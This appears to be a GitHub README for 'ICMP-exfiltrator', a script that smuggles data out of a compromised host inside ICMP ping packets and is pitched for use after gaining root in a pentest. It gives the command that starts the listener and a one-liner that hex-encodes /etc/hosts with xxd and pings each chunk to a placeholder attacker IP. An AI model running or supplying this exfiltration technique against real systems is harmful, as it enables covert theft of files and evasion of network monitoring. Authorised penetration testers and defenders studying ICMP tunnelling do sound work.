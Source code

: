 # ICMP-exfiltrator
A simple script for data exfiltration using ICMP packets.

This script will be useful at the end of a pentest to steal data when otherwise we could not.After getting root we could use this script to exfiltrate data to our attacker's server stealthily via ICMP packets.

# Screenshots

We let our sniffer listen.

``` python
python3 icmp_exfiltration.py 2> /dev/null
```
Using the xxd command we can encode a file and send it to the attacker's sniffer via ping.

```bash
xxd -p -c 4 /etc/hosts | while read line; do ping -c 1 -p $line <attackers_IP_address> ; done
```
